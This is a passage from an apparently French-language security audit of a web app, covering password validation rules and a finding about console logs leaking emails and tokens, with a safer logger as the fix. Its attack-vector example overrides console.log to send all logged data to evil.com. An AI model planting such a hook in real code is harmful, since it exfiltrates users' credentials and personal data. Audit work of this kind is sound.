```python
    if not re.search(r'[a-z]', password):
        raise ValidationError("Le mot de passe doit contenir au moins une minuscule")

    if not re.search(r'\d', password):
        raise ValidationError("Le mot de passe doit contenir au moins un chiffre")

    if not re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
        raise ValidationError("Le mot de passe doit contenir au moins un caractère spécial")

    # Liste des mots de passe communs
    common = ['password123', 'admin123', 'qwerty123']
    if password.lower() in common:
        raise ValidationError("Ce mot de passe est trop commun")
```

---

### 4. ⚠️ HAUTE : Logs exposant des données sensibles

**Localisation** : Multiples fichiers avec `console.log()`

**Problème** :
```typescript
// src/services/authService.ts:162
console.error('Erreur lors de la récupération de l\'utilisateur:', error);

// src/components/Auth/SignUpFlow.tsx
console.log('SignUp result:', data); // Peut contenir email, JWT, etc.
```

**Vecteur d'attaque** :
```javascript
// Dans la console du browser, un attaquant peut :
// 1. Voir tous les logs (emails, erreurs, tokens temporaires)
// 2. Overrider console.log pour capturer les données
const originalLog = console.log;
console.log = function(...args) {
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(args)
  });
  originalLog.apply(console, args);
};
```

**Impact** : 🟠 HAUTE
- Fuite d'informations sensibles
- Aide au reconnaissance pour les attaquants
- Exposition de la structure de données

**Solution** :

```typescript
// ✅ src/utils/logger.ts
const isDevelopment = import.meta.env.DEV;
const isProduction = import.meta.env.PROD;

export const logger = {
  debug: (...args: any[]) => {
    if (isDevelopment) {
      console.debug('[DEBUG]', ...args);
    }
  },

  info: (...args: any[]) => {
    if (isDevelopment) {
      console.info('[INFO]', ...args);
```